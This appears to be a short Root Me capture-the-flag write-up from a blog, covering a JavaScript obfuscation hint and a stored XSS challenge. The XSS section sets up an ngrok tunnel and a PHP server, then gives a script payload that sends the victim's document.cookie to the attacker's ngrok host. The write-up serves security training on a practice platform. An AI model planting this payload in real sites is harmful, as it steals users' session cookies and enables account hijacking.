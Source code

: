 ```yaml
---
title: Root Me | Web Client Medium
author: Zeropio
date: 2022-04-11
categories: [RootMe, WebClient]
tags: [rootme, webclient, medium]
permalink: /rootme/web-client/medium
---
```


# Javascript - Obfuscation 3

Decode the string from hex and from decimal.

# XSS - Stored 1

In the machine:
```console
$ ngrok http 80
$ php -S localhost:80
```

In the web, the following payload:
```
<script>document.write('<img src="https://{ngrok-ip}/?cookie='+document.cookie+'" />')</script>
```
